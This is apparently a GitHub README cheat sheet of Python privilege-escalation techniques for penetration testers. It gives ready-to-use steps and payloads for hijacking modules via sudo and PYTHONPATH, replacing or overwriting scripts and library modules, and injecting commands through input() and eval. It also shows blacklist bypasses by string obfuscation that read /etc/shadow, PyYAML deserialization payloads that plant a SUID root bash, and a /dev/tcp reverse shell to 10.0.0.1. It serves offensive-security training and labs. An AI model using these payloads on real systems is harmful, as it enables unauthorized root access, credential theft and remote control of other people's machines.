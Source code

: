 ### There are multiple ways to escalate with python

## EXAMPLES:

# MODULE HIJACKING

#### 1) SETENV: NOPASSWD /usr/bin/python /home/whatever/script.py

#### 2) Check if you can overwrite an already existing module in python, or simply create the missing import module that the script asks

#### E.g.: ImportError: No module named pwned

#### 3) Create the malicious binary in any directory we have write access to (/tmp directory as usual)

#### 4) The payload can be (import os; os.system('/bin/bash') or a python reverse shell.

#### 5) chmod +x pwned.py

#### 6) sudo PYTHONPATH=/tmp/ /usr/bin/python /home/whatever/script.py

#### 7) Enjoy root!

# SUDO PRIVILEGE ESCALATION

#### 1) NOPASSWD: /usr/bin/python /home/USER/script.py

#### 2) If the python script is under the current user's home directory, we can remove the script and create the new one with the same name.

#### rm -rf /home/USER/script.py

#### touch /home/USER/script.py

#### 3) Insert payload (import os;os.system('/bin/bash')

#### 4) GGEZ

# MODULE OVERRIDING 

#### If the Python script contains a module that can be modified by current user, we can inject arbitrary code into the module.

#### 1) First, check what modules the Python script uses.

#### 2) find / -name "random.py" 2>/dev/null

#### 3) ls -la /usr/lib/python3.6/random.py

#### 4) If we have write permissions on the file, we can inject our own malicious code for privesc (import os; os.system('/bin/bash')

#### 5) Execute for root shell ;)

# OS COMMANDS IN INPUT()

#### 1) If the python executable asks for input, you can try to enter OS commands like:

#### 2) Input: __import__('os').system('id')

# BLACKLISTED PYTHON MODULES

### Examples: 

#### eval, exec, import, open, os, read, system, write

#### Bypass techniques: String obfuscation

#### Payload: print(globals())
#### print(getattr(getattr(globals()['__builtins__'], '__im'+'port__')('o'+'s'), 'sys'+'tem')('cat /etc/shadow'))
#### __builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('cat /etc/shadow')

#### Bypass techniques: Input

#### If the "eval" or "exec" modules are accepted, we can input arbitrary code.

#### eval(input()) or exec(input())

#### print(open("/etc/passwd", "r").read())

# PYTHON YAML PRIVILEGE ESCALATION

### Python yaml package is vulnerable to execute arbitrary commands

#### 1) import yaml; filename = "example.yml"; yaml.load()

#### 2) Payload: 

#### import yaml

#### from yaml import Loader, UnsafeLoader

#### data = b'!!python/object/new:os.system ["cp `which bash` /tmp/bash;chown root /tmp/bash;chmod u+sx /tmp/bash"]'

#### yaml.load(data)

#### yaml.load(data, Loader=Loader)

#### yaml.load(data, Loader=UnsafeLoader)

#### yaml.load_all(data)

#### yaml.load_all(data, Loader=Loader)

#### yaml.load_all(data, Loader=UnsafeLoader)

#### yaml.unsafe_load(data)

#### 3) /tmp/bash -p

### Base64 Encoding RCE

#### 1) yaml.load(b64decode(b"ISFweXRa...YXNoIl0="))

### Reverse Shell

#### 1) start listener: nc -lvnp 1234

#### 2) Execute python script that contains YAML code as root:

#### import yaml

#### yaml.load('!!python/object/new:os.system ['bash -c "bash -i >& /dev/tcp/10.0.0.1/1234 0>&1"'])
